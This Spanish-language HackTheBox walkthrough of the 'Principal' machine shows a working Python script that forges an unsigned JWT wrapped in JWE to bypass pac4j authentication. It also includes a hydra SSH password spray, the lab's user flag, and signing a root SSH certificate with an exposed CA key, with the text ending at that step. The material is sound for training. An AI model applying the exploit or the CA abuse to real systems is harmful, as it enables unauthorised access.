







# Principal HackTheBox (Intermediate)

## Contexto de la maquina

### Trayectoria Principal

<figure><figcaption></figcaption></figure>

### Descripción

**Principal** es una máquina Linux orientada a la explotación de vulnerabilidades en aplicaciones web modernas que utilizan autenticación basada en **JWT/JWE**. El escenario gira en torno a una plataforma interna denominada _Principal Internal Platform_, que implementa autenticación mediante la librería **pac4j**.

Durante el proceso de explotación se identifican varios fallos críticos de seguridad, entre ellos un **bypass de autenticación en pac4j**, exposición de secretos dentro del panel administrativo y una **configuración insegura del sistema de certificados SSH**.

Estos errores permiten a un atacante:

1. Bypassear el mecanismo de autenticación de la aplicación web.
2. Acceder al panel administrativo.
3. Obtener credenciales reutilizadas para acceso SSH.
4. Escalar privilegios mediante abuso de una **Certificate Authority (CA)** utilizada por el servidor SSH.

**Objetivo del reto**

El objetivo consiste en comprometer completamente el sistema mediante las siguientes etapas:

* Obtener acceso administrativo a la aplicación web.
* Identificar credenciales reutilizadas.
* Acceder al sistema mediante SSH.
* Escalar privilegios hasta **root** aprovechando una mala configuración del sistema de certificados SSH.

**Tipo de máquina**

* Linux
* Web Application
* Autenticación JWT/JWE
* Escalada de privilegios mediante SSH Certificates

**Habilidades y técnicas evaluadas**

* Enumeración de servicios con **Nmap**
* Análisis de aplicaciones web
* Identificación de versiones vulnerables de librerías
* Explotación de **Authentication Bypass**
* Manipulación de **JWT/JWE**
* Uso de herramientas como **curl**, **jq** y **Hydra**
* Reutilización de credenciales
* Acceso remoto mediante **SSH**
* Escalada de privilegios mediante **SSH Certificate Authority**

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Escaneo de puertos

Comenzamos realizando un escaneo completo de puertos TCP para identificar los servicios expuestos en la máquina objetivo.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Una vez identificados los puertos abiertos, lanzamos un escaneo más detallado sobre ellos para obtener versiones y scripts por defecto.

```shell
nmap -sCV -p<PORTS> <IP>
```

Resultado:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-13 15:56 -0400
Nmap scan report for 10.129.6.163
Host is up (0.047s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b0:a0:ca:46:bc:c2:cd:7e:10:05:05:2a:b8:c9:48:91 (ECDSA)
|_  256 e8:a4:9d:bf:c1:b6:2a:37:93:40:d0:78:00:f5:5f:d9 (ED25519)
8080/tcp open  http-proxy Jetty
| http-title: Principal Internal Platform - Login
|_Requested resource was /login
|_http-server-header: Jetty
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Date: Fri, 13 Mar 2026 19:56:24 GMT
|     Server: Jetty
|     X-Powered-By: pac4j-jwt/6.0.3
|     Cache-Control: must-revalidate,no-cache,no-store
|     Content-Type: application/json
|     {"timestamp":"2026-03-13T19:56:24.400+00:00","status":404,"error":"Not Found","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     Date: Fri, 13 Mar 2026 19:56:23 GMT
|     Server: Jetty
|     X-Powered-By: pac4j-jwt/6.0.3
|     Content-Language: en
|     Location: /login
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Fri, 13 Mar 2026 19:56:24 GMT
|     Server: Jetty
|     X-Powered-By: pac4j-jwt/6.0.3
|     Allow: GET,HEAD,OPTIONS
|     Accept-Patch: 
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 505 HTTP Version Not Supported
|     Date: Fri, 13 Mar 2026 19:56:24 GMT
|     Cache-Control: must-revalidate,no-cache,no-store
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 349
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=ISO-8859-1"/>
|     <title>Error 505 Unknown Version</title>
|     </head>
|     <body>
|     <h2>HTTP ERROR 505 Unknown Version</h2>
|     <table>
|     <tr><th>URI:</th><td>/badMessage</td></tr>
|     <tr><th>STATUS:</th><td>505</td></tr>
|     <tr><th>MESSAGE:</th><td>Unknown Version</td></tr>
|     </table>
|     </body>
|     </html>
|   Socks5: 
|     HTTP/1.1 400 Bad Request
|     Date: Fri, 13 Mar 2026 19:56:24 GMT
|     Cache-Control: must-revalidate,no-cache,no-store
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 382
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=ISO-8859-1"/>
|     <title>Error 400 Illegal character CNTL=0x5</title>
|     </head>
|     <body>
|     <h2>HTTP ERROR 400 Illegal character CNTL=0x5</h2>
|     <table>
|     <tr><th>URI:</th><td>/badMessage</td></tr>
|     <tr><th>STATUS:</th><td>400</td></tr>
|     <tr><th>MESSAGE:</th><td>Illegal character CNTL=0x5</td></tr>
|     </table>
|     </body>
|_    </html>
|_http-open-proxy: Proxy might be redirecting requests
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.98%I=7%D=3/13%Time=69B46BE8%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,A4,"HTTP/1\.1\x20302\x20Found\r\nDate:\x20Fri,\x2013\x20Mar\x2
SF:02026\x2019:56:23\x20GMT\r\nServer:\x20Jetty\r\nX-Powered-By:\x20pac4j-
SF:jwt/6\.0\.3\r\nContent-Language:\x20en\r\nLocation:\x20/login\r\nConten
SF:t-Length:\x200\r\n\r\n")%r(HTTPOptions,A2,"HTTP/1\.1\x20200\x20OK\r\nDa
SF:te:\x20Fri,\x2013\x20Mar\x202026\x2019:56:24\x20GMT\r\nServer:\x20Jetty
SF:\r\nX-Powered-By:\x20pac4j-jwt/6\.0\.3\r\nAllow:\x20GET,HEAD,OPTIONS\r\
SF:nAccept-Patch:\x20\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,220,
SF:"HTTP/1\.1\x20505\x20HTTP\x20Version\x20Not\x20Supported\r\nDate:\x20Fr
SF:i,\x2013\x20Mar\x202026\x2019:56:24\x20GMT\r\nCache-Control:\x20must-re
SF:validate,no-cache,no-store\r\nContent-Type:\x20text/html;charset=iso-88
SF:59-1\r\nContent-Length:\x20349\r\n\r\n<html>\n<head>\n<meta\x20http-equ
SF:iv=\"Content-Type\"\x20content=\"text/html;charset=ISO-8859-1\"/>\n<tit
SF:le>Error\x20505\x20Unknown\x20Version</title>\n</head>\n<body>\n<h2>HTT
SF:P\x20ERROR\x20505\x20Unknown\x20Version</h2>\n<table>\n<tr><th>URI:</th
SF:><td>/badMessage</td></tr>\n<tr><th>STATUS:</th><td>505</td></tr>\n<tr>
SF:<th>MESSAGE:</th><td>Unknown\x20Version</td></tr>\n</table>\n\n</body>\
SF:n</html>\n")%r(FourOhFourRequest,13B,"HTTP/1\.1\x20404\x20Not\x20Found\
SF:r\nDate:\x20Fri,\x2013\x20Mar\x202026\x2019:56:24\x20GMT\r\nServer:\x20
SF:Jetty\r\nX-Powered-By:\x20pac4j-jwt/6\.0\.3\r\nCache-Control:\x20must-r
SF:evalidate,no-cache,no-store\r\nContent-Type:\x20application/json\r\n\r\
SF:n{\"timestamp\":\"2026-03-13T19:56:24\.400\+00:00\",\"status\":404,\"er
SF:ror\":\"Not\x20Found\",\"path\":\"/nice%20ports%2C/Tri%6Eity\.txt%2ebak
SF:\"}")%r(Socks5,232,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:\x20Fri,
SF:\x2013\x20Mar\x202026\x2019:56:24\x20GMT\r\nCache-Control:\x20must-reva
SF:lidate,no-cache,no-store\r\nContent-Type:\x20text/html;charset=iso-8859
SF:-1\r\nContent-Length:\x20382\r\n\r\n<html>\n<head>\n<meta\x20http-equiv
SF:=\"Content-Type\"\x20content=\"text/html;charset=ISO-8859-1\"/>\n<title
SF:>Error\x20400\x20Illegal\x20character\x20CNTL=0x5</title>\n</head>\n<bo
SF:dy>\n<h2>HTTP\x20ERROR\x20400\x20Illegal\x20character\x20CNTL=0x5</h2>\
SF:n<table>\n<tr><th>URI:</th><td>/badMessage</td></tr>\n<tr><th>STATUS:</
SF:th><td>400</td></tr>\n<tr><th>MESSAGE:</th><td>Illegal\x20character\x20
SF:CNTL=0x5</td></tr>\n</table>\n\n</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.48 seconds
```

Observamos que existen **dos puertos abiertos**:

* **22 → SSH**
* **8080 → HTTP**

Accedemos ahora a la web:

```
URL = http://<IP>:8080/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Al acceder a la página de login del panel interno "Principal", lo primero que observamos es el footer de la aplicación:

```
v1.2.0 | Powered by pac4j
```

Esta información es crucial, ya que nos indica que el sistema utiliza la librería de autenticación `pac4j` en su versión **1.2.0**. Investigando sobre esta versión, descubrimos que es vulnerable a un CVE crítico.

## CVE-2026-29000

<figure><figcaption></figcaption></figure>

#### Identificación de la Vulnerabilidad

Buscando vulnerabilidades asociadas a pac4j v1.2.0, encontramos el **CVE-2026-29000**, un Authentication Bypass con severidad CVSS 10.0 (Crítico).

**Descripción de la vulnerabilidad:**\
El CVE-2026-29000 consiste en un bypass de autenticación mediante **JWE-Wrapped PlainJWT**. La vulnerabilidad permite a un atacante con solo la clave pública del servidor (que está diseñada para ser pública) forjar un token JWT con cualquier identidad y autenticarse como cualquier usuario, incluyendo administrador.

**Referencias:**

* GitHub Advisory: [GHSA-pm7g-w2cf-q238](https://github.com/advisories/GHSA-pm7g-w2cf-q238)
* PoC y análisis detallado: [CodeAnt AI Security Research](https://www.codeant.ai/security-research/pac4j-jwt-authentication-bypass-public-key)

#### Análisis del Entorno

Buscando información adicional sobre la implementación, descubrimos un archivo JavaScript que revela detalles técnicos importantes:

```
URL = http://<IP>:8080/static/js/app.js
```

<figure><figcaption></figcaption></figure>

Este archivo contiene documentación y código que nos proporciona información valiosa:

```js
/**
 * Principal Internal Platform - Client Application
 * Version: 1.2.0
 *
 * Authentication flow:
 * 1. User submits credentials to /api/auth/login
 * 2. Server returns encrypted JWT (JWE) token
 * 3. Token is stored and sent as Bearer token for subsequent requests
 *
 * Token handling:
 * - Tokens are JWE-encrypted using RSA-OAEP-256 + A128GCM
 * - Public key available at /api/auth/jwks for token verification
 * - Inner JWT is signed with RS256
 *
 * JWT claims schema:
 *   sub   - username
 *   role  - one of: ROLE_ADMIN, ROLE_MANAGER, ROLE_USER
 *   iss   - "principal-platform"
 *   iat   - issued at (epoch)
 *   exp   - expiration (epoch)
 */
 ............................<MAS INFORMACION>.....................................
```

También encontramos los endpoints definidos:

```js
const JWKS_ENDPOINT = '/api/auth/jwks';
const AUTH_ENDPOINT = '/api/auth/login';
const DASHBOARD_ENDPOINT = '/api/dashboard';
const USERS_ENDPOINT = '/api/users';
const SETTINGS_ENDPOINT = '/api/settings';
```

#### Comprensión del Ataque

El CVE-2026-29000 explota una debilidad en la lógica de validación de pac4j cuando se procesan tokens JWE. El flujo normal debería ser:

1. Cliente envía token JWE encriptado
2. Servidor descifra con su clave privada
3. Verifica la firma del JWT interno
4. Autentica al usuario

**La vulnerabilidad:**\
Cuando el token interno es un **PlainJWT** (sin firma), la librería omite completamente la verificación de firma y procede a autenticar al usuario con los claims del token.

#### Estrategia de Explotación

Para explotar esta vulnerabilidad necesitamos:

1. **Obtener la clave pública RSA** del servidor (disponible en `/api/auth/jwks` según el JavaScript)
2. **Crear un token JWT malicioso** con los claims de administrador
3. **Envolverlo en un JWE** usando la clave pública
4. **Enviar el token** al endpoint correspondiente

La clave del ataque es que el JWT interno debe ser un **PlainJWT** (sin firma), lo que provocará que pac4j omita la verificación y acepte cualquier identidad.

#### Obtención de la Clave Pública

Primero accedemos al endpoint **JWKS (JSON Web Key Set)** para obtener la **clave pública RSA** utilizada por el servidor para trabajar con los tokens.

```shell
curl -s http://<IP>:8080/api/auth/jwks | jq .
```

Respuesta:

```json
{
  "keys": [
    {
      "kty": "RSA",
      "e": "AQAB",
      "kid": "enc-key-1",
      "n": "lTh54vtBS1NAWrxAFU1NEZdrVxPeSMhHZ5NpZX-WtBsdWtJRaeeG61iNgYsFUXE9j2MAqmekpnyapD6A9dfSANhSgCF60uAZhnpIkFQVKEZday6ZIxoHpuP9zh2c3a7JrknrTbCPKzX39T6IK8pydccUvRl9zT4E_i6gtoVCUKixFVHnCvBpWJtmn4h3PCPCIOXtbZHAP3Nw7ncbXXNsrO3zmWXl-GQPuXu5-Uoi6mBQbmm0Z0SC07MCEZdFwoqQFC1E6OMN2G-KRwmuf661-uP9kPSXW8l4FutRpk6-LZW5C7gwihAiWyhZLQpjReRuhnUvLbG7I_m2PV0bWWy-Fw"
    }
  ]
}
```

Este endpoint devuelve las claves públicas que utiliza la aplicación para **descifrar o validar tokens JWT/JWE**.

En este caso vemos que se trata de una clave **RSA**, donde:

* `kty` → tipo de clave
* `n` → módulo RSA
* `e` → exponente público
* `kid` → identificador de la clave

Sabiendo esto, podemos **reconstruir la clave pública** y utilizarla para generar un token manipulado.

El objetivo será crear un **JWT sin firma (`alg: none`)**, suplantando la identidad del usuario **admin**, y posteriormente **envolverlo en un JWE cifrado con la clave pública del servidor**.

De esta forma, el servidor podrá **descifrar el token**, pero no verificará correctamente la firma interna, permitiéndonos **bypassear la autenticación**.

### Generación del Token malicioso

Para ello vamos a crear un pequeño **script en Python** que:

1. Reconstruya la **clave pública RSA**
2. Cree un **JWT sin firma (`alg: none`)**
3. Incluya **claims de administrador**
4. Lo envuelva dentro de un **JWE cifrado con RSA**

> generateTOKEN.py

```python
import json
import time
import base64
import requests
from jwcrypto import jwk, jwe
from jwcrypto.common import json_encode

# Clave pública del servidor (formato PEM)
pem = """-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAlTh54vtBS1NAWrxAFU1N
EZdrVxPeSMhHZ5NpZX+WtBsdWtJRaeeG61iNgYsFUXE9j2MAqmekpnyapD6A9dfS
ANhSgCF60uAZhnpIkFQVKEZday6ZIxoHpuP9zh2c3a7JrknrTbCPKzX39T6IK8py
dccUvRl9zT4E/i6gtoVCUKixFVHnCvBpWJtmn4h3PCPCIOXtbZHAP3Nw7ncbXXNs
rO3zmWXl+GQPuXu5+Uoi6mBQbmm0Z0SC07MCEZdFwoqQFC1E6OMN2G+KRwmuf661
+uP9kPSXW8l4FutRpk6+LZW5C7gwihAiWyhZLQpjReRuhnUvLbG7I/m2PV0bWWy+
FwIDAQAB
-----END PUBLIC KEY-----"""

# Cargar clave pública
public_key = jwk.JWK.from_pem(pem.encode('utf-8'))

# Crear claims de administrador
claims = {
    "sub": "admin",
    "role": "ROLE_ADMIN",
    "iss": "principal-platform",
    "iat": int(time.time()),
    "exp": int(time.time()) + 3600
}

# Crear PlainJWT (sin firma)
header_none = {"alg": "none"}
plain_jwt_parts = [
    base64.urlsafe_b64encode(json_encode(header_none).encode()).decode().rstrip("="),
    base64.urlsafe_b64encode(json_encode(claims).encode()).decode().rstrip("="),
    ""
]
plain_jwt = ".".join(plain_jwt_parts)

print(f"[+] PlainJWT creado")

# Envolver en JWE
jwe_token = jwe.JWE(
    plain_jwt.encode('utf-8'),
    recipient=public_key,
    protected={
        "alg": "RSA-OAEP-256",
        "enc": "A128GCM",
        "cty": "JWT"
    }
)

token = jwe_token.serialize(compact=True)

# Guardar token en archivo
with open("token.txt", "w") as f:
    f.write(token)

print(f"[+] Token guardado en token.txt")
print(f"[+] Longitud del token: {len(token)} caracteres")
```

### Generar el token

Ahora ejecutamos el script.

```shell
python3 generateTOKEN.py
```

Respuesta:

```
[+] PlainJWT creado
[+] Token guardado en token.txt
[+] Longitud del token: 650 caracteres
```

Si abrimos el archivo generado veremos el **token JWE completo**.

```
eyJhbGciOiJSU0EtT0FFUC0yNTYiLCJjdHkiOiJKV1QiLCJlbmMiOiJBMTI4R0NNIn0.J2ZQC3gwBbyBhiuW-RwYCPZGcAmiFkgOd0dWKZTwIHibFPRlCP3cRydnL9SlSp3U2MFHUFHB0xWG4-vzWe2mFTFXrKGo8brGcgwFWuWNH2WJem-43a3gPDSLiCgnZqD8IOwoZiKtCeghNC80UiYfSLj0tScifMsTfUI6hR3x4WNTLNa5xMklHCBna_xYc0I8525fX73fOwMdDz5cxs3CFUxpGGpN2iBI_cDVr4vCHyF6GzNqg_c_XE8OyiudiyzGzSo8TBXf_59m6uC-CptNLo0GTm1ptXoN3NEuzp0LJcVix7iJWA_mzx_8rqUx8zJxvfj6whVcGeU6jCVm1PZdGg.1HRYABtuWprpus6Y.y9psv4c92I310Wk2Wv8__fQX4JImjePxAJzHX30LiOmFOpqPkA9PaT5PKVgJuF9dY5YZfc9b9i2oB0Owudo_slQ9I_V0llr-M_8H8yQYBHryxwIRMV9wyzI-Ed02UYCxbUE-Osk0fwNr5OMRd5kpv_hG-3M22uyn_lAkzHinpwPCheF-Pgk0YgX2CJ0GK5fKBCQ9gms.KcyU5qtwW8Yi3HHIaekoew
```

Este token contiene:

1. Un **JWT interno sin firma**
2. Claims de **administrador**
3. Cifrado con la **clave pública del servidor**

Cuando el servidor lo procese:

1. Podrá **descifrarlo correctamente**
2. Pero no verificará correctamente la firma interna
3. Por lo tanto aceptará el token como válido

### Inyección del Token en la Web

Ahora debemos introducir el token en la aplicación web.

La aplicación guarda el token en:

```js
sessionStorage.auth_token
```

Por lo tanto abrimos las **Developer Tools del navegador** y en la pestaña **Console** ejecutamos lo siguiente:

```shell
# Abrimos las Tools de la web y nos vamos a la pestaña "Consola"
# Token generado (Pegar TOKEN completo generado)
const token = "eyJhbGciOiJSU0EtT0FFUC0yNTYiLCJjdHkiOiJKV1QiLCJlbmMiOiJBMTI4R0NNIn0.J2ZQC3gwBbyBhiuW-RwYCPZGcAmiFkgOd0dWKZTwIHibFPRlCP3cRydnL9SlSp3U2MFHUFHB0xWG4-vzWe2mFTFXrKGo8brGcgwFWuWNH2WJem-43a3gPDSLiCgnZqD8IOwoZiKtCeghNC80UiYfSLj0tScifMsTfUI6hR3x4WNTLNa5xMklHCBna_xYc0I8525fX73fOwMdDz5cxs3CFUxpGGpN2iBI_cDVr4vCHyF6GzNqg_c_XE8OyiudiyzGzSo8TBXf_59m6uC-CptNLo0GTm1ptXoN3NEuzp0LJcVix7iJWA_mzx_8rqUx8zJxvfj6whVcGeU6jCVm1PZdGg.1HRYABtuWprpus6Y.y9psv4c92I310Wk2Wv8__fQX4JImjePxAJzHX30LiOmFOpqPkA9PaT5PKVgJuF9dY5YZfc9b9i2oB0Owudo_slQ9I_V0llr-M_8H8yQYBHryxwIRMV9wyzI-Ed02UYCxbUE-Osk0fwNr5OMRd5kpv_hG-3M22uyn_lAkzHinpwPCheF-Pgk0YgX2CJ0GK5fKBCQ9gms.KcyU5qtwW8Yi3HHIaekoew";

# Guardar en sessionStorage (como hace la app)
sessionStorage.setItem('auth_token', token);

# Verificamos que se guardó
console.log("Token guardado:", sessionStorage.getItem('auth_token'));

# Redirigir al dashboard
window.location.href = '/dashboard';
```

Esto simula exactamente el comportamiento de autenticación de la aplicación.

### Acceso como administrador

Después de ejecutar el script que redirige al dashboard veremos lo siguiente:

<figure><figcaption></figcaption></figure>

Ahora estamos autenticados como **usuario admin** dentro de la aplicación.

Esto confirma que el **bypass de autenticación ha funcionado correctamente**.

A partir de aquí podemos continuar investigando el panel para encontrar nuevas formas de comprometer el sistema.

## Escalate user svc-deploy

<figure><figcaption></figcaption></figure>

Si accedemos a la sección **Users**, veremos varios usuarios registrados en el sistema.

Vamos a guardarlos en una lista.

> users.txt

```
administrator
admin
svc-deploy
amorales
jthompson
kkumar
mwilson
lzhang
```

Ahora si nos dirigimos a **Settings**, veremos algo bastante interesante.

<figure><figcaption></figcaption></figure>

En la sección **Security** aparece la **clave utilizada para firmar los JWT**, expuesta en **texto plano**.

Esto significa que podríamos generar **tokens válidos firmados correctamente**, sin necesidad de realizar el bypass anterior.

Sin embargo, teniendo en cuenta que ya podemos **suplantar cualquier usuario mediante el bypass**, no es necesario generar nuevos tokens.

En su lugar, podemos aprovechar esta información de otra forma.

Sabemos que el sistema expone un servicio **SSH**, por lo que existe la posibilidad de que la contraseña utilizada para firmar los tokens haya sido **reutilizada como contraseña de algún usuario del sistema**.

### Ataque de reutilización de credenciales

Probamos la contraseña encontrada contra todos los usuarios utilizando `hydra`.

```shell
hydra -L users.txt -p 'D3pl0y_$$H_Now42!' ssh://<IP> -t 64 -I
```

Respuesta:

```
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-03-14 04:35:10
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:8/p:1), ~1 try per task
[DATA] attacking ssh://10.129.244.220:22/
[22][ssh] host: 10.129.244.220   login: svc-deploy   password: D3pl0y_$$H_Now42!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-03-14 04:35:15
```

Encontramos credenciales válidas para el usuario:

```
svc-deploy
```

Por lo tanto, podemos acceder al sistema mediante **SSH**.

### SSH (svc-deploy)

<figure><figcaption></figcaption></figure>

```shell
ssh svc-deploy@<IP>
```

Metemos como contraseña `D3pl0y_$$H_Now42!`...

```
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

svc-deploy@principal:~$ whoami
svc-deploy
```

Vemos que hemos accedido de forma correcta, por lo que leeremos la `flag` del usuario.

> user.txt

```
bc258c7dd37eece3081e48e43a1c8786
```

## Escalate Privileges

<figure><figcaption></figcaption></figure>

Inspeccionando el directorio `/opt`, encontramos una carpeta llamada `principal` con la siguiente estructura:

```
total 20
drwxr-xr-x 5 root root      4096 Mar 11 04:22 .
drwxr-xr-x 4 root root      4096 Mar 11 04:22 ..
drwxr-xr-x 5 app  app       4096 Mar 11 04:22 app
drwxr-x--- 2 root root      4096 Mar 11 04:22 deploy
drwxr-x--- 2 root deployers 4096 Mar 11 04:22 ssh
```

Lo que inmediatamente llama la atención es el directorio `ssh` con permisos restrictivos pero accesibles para el grupo `deployers`.

#### Descubrimiento Crítico

Listando el contenido del directorio `ssh`:

```
total 20
drwxr-x--- 2 root deployers 4096 Mar 11 04:22 .
drwxr-xr-x 5 root root      4096 Mar 11 04:22 ..
-rw-r----- 1 root deployers  288 Mar  5 21:05 README.txt
-rw-r----- 1 root deployers 3381 Mar  5 21:05 ca
-rw-r--r-- 1 root root       742 Mar  5 21:05 ca.pub
```

Aquí tenemos dos archivos cruciales:

* **`ca`** → Clave privada de la Certificate Authority (CA)
* **`ca.pub`** → Clave pública de la CA

#### Verificación de Permisos

Comprobamos a qué grupos pertenecemos:

```shell
id
```

Respuesta:

```
uid=1001(svc-deploy) gid=1002(svc-deploy) groups=1002(svc-deploy),1001(deployers)
```

Pertenecemos al grupo `deployers`, lo que significa que podemos leer el archivo `ca` (la clave privada de la CA). Esto es una vulnerabilidad crítica, ya que esta clave debería ser secreta y accesible solo para `root`.

#### Análisis de Configuración SSH

Para confirmar que el sistema acepta certificados firmados por esta CA, verificamos la configuración de SSH:

```shell
grep -r "TrustedUserCAKeys" /etc/ssh/sshd_config /etc/ssh/sshd_config.d/
```

Respuesta:

```
/etc/ssh/sshd_config.d/60-principal.conf:TrustedUserCAKeys /opt/principal/ssh/ca.pub
```

Esto confirma que **el servidor SSH confía en cualquier certificado firmado por nuestra CA**. Es decir, podemos crear certificados válidos para cualquier usuario, incluyendo `root`.

#### Generación de Claves

Procedemos a generar un par de claves RSA para nuestro ataque:

```shell
ssh-keygen -t rsa -b 4096 -f root-key -N ""
```

Respuesta:

```
Generating public/private rsa key pair.
Your identification has been saved in root-key
Your public key has been saved in root-key.pub
The key fingerprint is:
SHA256:NJ6BlTtsZW3CS2C5lWXt1/J9geJg9kBzzW2criVzuBk svc-deploy@principal
The key's randomart image is:
+---[RSA 4096]----+
|        += +=.o .|
|       +ooOooo.= |
|      ..=Bo+ .= .|
|       o*O.. Eo=o|
|       .S.= . X+o|
|           o +  +|
|                .|
|                 |
|                 |
+----[SHA256]-----+
```

#### Firma del Certificado como Root

Ahora, usando la clave privada de la CA, firmamos nuestra clave pública para que sea válida para el usuario `root`:

```shell
ssh-keygen -s /opt/principal/ssh/ca -I "root-access" -n root -V +1d root-key.pub
```

Respuesta:

```
Signed user key root-key-cert.pub: id "root-access" serial 0 for root valid from 2026-03-14T08:47:00 to 2026-03-15T08:48:19
```

